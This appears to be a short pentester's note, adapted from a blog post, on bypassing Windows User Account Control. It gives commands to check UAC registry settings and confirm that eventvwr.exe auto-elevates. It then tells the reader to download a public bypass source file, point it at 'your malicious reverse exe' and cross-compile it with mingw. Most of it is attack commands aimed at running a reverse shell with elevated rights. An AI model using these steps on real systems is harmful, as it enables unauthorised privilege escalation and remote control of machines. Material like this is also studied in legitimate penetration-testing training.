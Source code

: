 https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/

Confirm UAC is on:
```command prompt - target
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

```powershell - target
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
```

Now notice the three highlighted keys above and their values.

1.  `EnableLUA` tells us whether UAC is enabled. If 0 we don’t need to bypass it at all can just PsExec to SYSTEM. If it’s 1 however, then check the other 2 keys.
2.  `ConsentPromptBehaviorAdmin` can theoretically take on [6 possible values](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4) (readable explanation [here](https://www.tenforums.com/tutorials/112621-change-uac-prompt-behavior-administrators-windows.html)), but from configuring the UAC slider in Windows settings it takes on either 0, 2 or 5.
3.  `PromptOnSecureDesktop` is binary, either 0 or 1.

==ConsentPromptBehaviorAdmin  : 5==
.....
==EnableLUA                   : 1==
.....
==PromptOnSecureDesktop       : 1==
.....

#### Method 1
Next, confirm the eventvwr.exe exists:
```command prompt - target
where /r C:\windows eventvwr.exe
```

```bash - kali
wget https://download.sysinternals.com/files/Strings.zip
```

Extract the Strings zip, upload to target.

```command prompt - target
strings64.exe -accepteula C:\Windows\System32\eventvwr.exe | findstr /i autoelevate
```

![[Pasted image 20220603135619.png]]

```bash - kali
wget https://raw.githubusercontent.com/turbo/zero2hero/master/main.c
```

Uncomment block 66 - 69, changing "foobar.exe" to  your malicious reverse exe:

	GetCurrentDirectory(MAX_PATH, curPath);
	strcat(curPath, "\\reverse64.exe");

```bash - kali
x86_64-w64-mingw32-gcc main.c -o bypass64.exe
```
